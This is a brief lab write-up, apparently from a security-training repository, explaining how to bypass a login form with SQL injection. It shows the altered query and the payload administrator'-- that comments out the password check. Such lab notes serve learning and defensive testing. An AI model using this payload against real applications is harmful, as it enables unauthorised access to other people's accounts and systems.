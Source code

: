 # SQL Injection - Bypassing login functionallity
 This lab contains a SQL injection vulnerability in the login function.

## Challenge
To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

## Target:
Log into as the administrator using SQL Injection

## QUERY:
''' bash
SELECT * FROM users WHERE username='administrator'-- AND password='whateverpassword'
'''

In this instance, the payload is administrator'--
